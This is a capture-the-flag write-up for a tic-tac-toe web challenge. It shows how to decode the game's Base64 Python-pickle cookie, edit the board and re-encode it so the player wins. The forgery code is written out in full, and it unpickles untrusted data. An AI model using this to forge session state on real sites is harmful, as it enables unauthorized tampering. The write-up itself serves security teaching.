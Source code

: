 #+TITLE: Advent of CTF - Challenge 20
#+SUBTITLE: "The Game"

* Challenge

In this challenge a change of pace again. You are faced with a game that you are set to loose. How can you still win? Well, hack the game state of course!

What you will learn today:

- Identify serialized data
- Manipulate serialized data

* Solution
:PROPERTIES:
:ATTACH_DIR: /home/arjen/Projects/credmp.github.io/writeups/advent-of-ctf/challenge-20/index_att
:END:

The challenge loads with a tic-tac-toe board in which =O= is set to win. Your goal is to make =X= win.

#+CAPTION: Game start state
[[file:index_att/challenge-start.png]]

Looking around the webpage you will notice there is a /cookie/ called =game=. This cookie starts with =gA=. You will quickly notice that it is a Base64 encoded cookie, as you have seen many times during the CTF.

Decoding does not yield anything useful. Examining it in a hex dump is a little more readable.

#+CAPTION: Examine the cookie
#+begin_src text
$ echo -n "gASVWgAAAAAAAAB9lCiMBWJvYXJklF2UKF2UKIwBT5RoBE5lXZQoaASMAViUaAZlXZQoTmgGaAZlZYwEdHVybpRoBIwIZmluaXNoZWSUiYwGd2lubmVylIwAlIwEc2FuZZSIdS4=" \
  | base64 -d | xxd
00000000: 8004 955a 0000 0000 0000 007d 9428 8c05  ...Z.......}.(..
00000010: 626f 6172 6494 5d94 285d 9428 8c01 4f94  board.].(].(..O.
00000020: 6804 4e65 5d94 2868 048c 0158 9468 0665  h.Ne].(h...X.h.e
00000030: 5d94 284e 6806 6806 6565 8c04 7475 726e  ].(Nh.h.ee..turn
00000040: 9468 048c 0866 696e 6973 6865 6494 898c  .h...finished...
00000050: 0677 696e 6e65 7294 8c00 948c 0473 616e  .winner......san
00000060: 6594 8875 2e                             e..u.   
#+end_src

Obviously the cookie holds information about the game. There is a reference to a board, turn, finished and winner.

Searching around for various types of serialization format you will quickly rule out the most obvious ones, Java nad .Net. You will come to the [[https://docs.python.org/3/library/pickle.html][Python Pickle]]. Lets test that.

#+CAPTION: Exploring the python pickle library
#+begin_src python
>>> import base64
>>> import pickle
>>> data="gASVWgAAAAAAAAB9lCiMBWJvYXJklF2UKF2UKIwBT5RoBE5lXZQoaASMAViUaAZlXZQoTmgGaAZlZYwEdHVybpRoBIwIZmluaXNoZWSUiYwGd2lubmVylIwAlIwEc2FuZZSIdS4="
>>> game=base64.b64decode(data)
>>> exploit=pickle.loads(game)
>>> exploit
{'board': [['O', 'O', None], ['O', 'X', 'X'], [None, 'X', 'X']], 'turn': 'O', 'finished': False, 'winner': '', 'sane': True}
#+end_src

That seems like a winner! It loads correctly and shows the complete board and all metadata. Play around with the various options here, will it work when setting =winner= tp =X=? or change the turn to =X=? All these attributes seem to be calculated runtime as well, so no luck. Lets change the board state instead.

#+begin_src python
import base64
import pickle
data="gASVWgAAAAAAAAB9lCiMBWJvYXJklF2UKF2UKIwBT5RoBE5lXZQoaASMAViUaAZlXZQoTmgGaAZlZYwEdHVybpRoBIwIZmluaXNoZWSUiYwGd2lubmVylIwAlIwEc2FuZZSIdS4="
game=base64.b64decode(data)
exploit=pickle.loads(game)

exploit["board"]=[['O', 'O', 'X'], ['O', None, 'X'], [None, 'X', 'X']]

print( base64.b64encode(pickle.dumps(exploit)).decode('utf-8'))
#+end_src

Changing the board to a winning state for =X=, while taking in account the play order, solves the challenge. In this game =X= started the game, so there has to be 1 =O= less in order to be a valid board.

Do not forget to grab the badge!

[[./index_att/badge.png]]

Go back to the [[../../../index.org][homepage]].

